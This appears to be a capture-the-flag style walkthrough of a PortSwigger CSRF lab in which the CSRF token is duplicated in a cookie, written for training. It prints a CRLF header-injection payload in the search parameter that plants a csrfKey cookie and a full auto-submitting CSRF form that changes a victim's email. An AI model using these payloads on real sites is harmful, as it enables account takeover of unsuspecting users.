 ## Welcome, my friend. Today we will start the [6. CSRF lab](https://portswigger.net/web-security/learning-paths/csrf/csrf-common-flaws-in-csrf-token-validation/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie) in ```portswigger```

### Let's play this lab:

![image](https://github.com/user-attachments/assets/4c65afa1-bd8d-478a-b91c-2969c5dfbf1b)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/c5a5656d-9ed5-4185-8d44-bf1c82d08478)

#### We can log in to our account using the following credentials: ```wiener:peter```

![image](https://github.com/user-attachments/assets/f4bbd8f2-d952-4cea-a5c3-cbe095af6c12)

#### Let's update email to ```0xT0R@gmail.com```:

![image](https://github.com/user-attachments/assets/f0143b2d-6431-4319-97a6-a039845cabd1)

#### We need do this task but through our victim by CSRF, we should intercept this request of update email by burp suite.

![image](https://github.com/user-attachments/assets/5b549f6c-7c42-4053-a544-116ed80e6a20)


### Let's change values of csrf and csrfkey:

![image](https://github.com/user-attachments/assets/c75f6117-fcad-4167-acca-8066a8ac1d03)



### Now Go to wiener account and go to home page and search about ```hi``` in search paramater:

![image](https://github.com/user-attachments/assets/383bc09a-ee98-40ae-aa35-657fc7084fbe)

#### and intercept this request in burp suite:

![image](https://github.com/user-attachments/assets/06cd30e7-0ae2-4884-88ad-5d239d6844ef)

### Great, we discove ```LastSearchTerm``` paramater in set-cookie.

### Let's changed search value to:

```
/?search=hi%0d%0aSet-Cookie:%20csrf=test%3b%20SameSite=None
```

![image](https://github.com/user-attachments/assets/6bbafd99-c1dd-4c4e-9ed4-582fbf189930)

### Go to exploit server and paste this code:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a5f00c903dee7db80d1865e00d10037.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hi1&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="MIeMs4jmcp8TBV2HnSrUqf5DNoTPalgJ" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a5f00c903dee7db80d1865e00d10037.web-security-academy.net/?search=hi%0d%0aSet-Cookie:%20csrfKey=KKuvlQPrwSbJ4IQ6aSUr7Q3F7M026hlL%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```


![image](https://github.com/user-attachments/assets/e690dc11-0024-4962-90cb-51f064072d6b)

![image](https://github.com/user-attachments/assets/75168ddd-aa6e-4b03-bb77-dd956d97d4ec)


-------

### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/dab63e63-4abd-40e6-b60a-78617621f2b8" >
</p>
